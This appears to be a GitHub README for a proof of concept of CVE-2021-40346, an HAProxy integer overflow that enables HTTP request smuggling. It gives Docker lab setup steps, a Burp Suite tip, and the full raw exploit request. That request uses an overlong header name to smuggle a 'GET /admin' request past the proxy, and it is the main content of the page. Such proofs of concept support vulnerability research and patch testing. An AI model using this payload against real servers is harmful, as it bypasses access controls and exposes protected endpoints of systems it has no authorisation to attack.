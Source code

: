 # CVE-2021-40346-POC #

CVE-2021-40346 integer overflow enables http smuggling


## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

![image](https://user-images.githubusercontent.com/31791455/140397000-4a163839-973f-42df-ac35-63601567f46e.png)


## Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```

![image](https://user-images.githubusercontent.com/31791455/140395810-d1890aee-1285-451a-a663-bbf35746b5db.png)



## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


